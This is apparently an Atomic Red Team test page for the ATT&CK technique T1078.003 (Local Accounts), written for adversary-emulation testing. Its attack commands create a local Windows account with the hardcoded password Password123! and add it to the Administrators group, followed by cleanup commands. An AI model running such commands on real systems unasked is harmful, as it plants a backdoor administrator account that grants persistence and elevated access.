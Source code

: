 # T1078.003 - Local Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/003)
<blockquote>Adversaries may obtain and abuse credentials of a local account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Local accounts are those configured by an organization for use by users, remote support, services, or for administration on a single system or service.

Local Accounts may also be abused to elevate privileges and harvest credentials through [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). Password reuse may allow the abuse of local accounts across a set of machines on a network for the purposes of Privilege Escalation and Lateral Movement. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Create local account with admin priviliges](#atomic-test-1---create-local-account-with-admin-priviliges)


<br/>

## Atomic Test #1 - Create local account with admin priviliges

auto_generated_guid: a524ce99-86de-4db6-b4f9-e08f35a47a15

After execution the new account will be active and added to the Administrators group
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user art-test /add
net user art-test Password123!
net localgroup administrators art-test /add
```

#### Cleanup Commands:
```cmd
net localgroup administrators art-test /delete >nul 2>&1
net user art-test /delete >nul 2>&1
```





<br/>
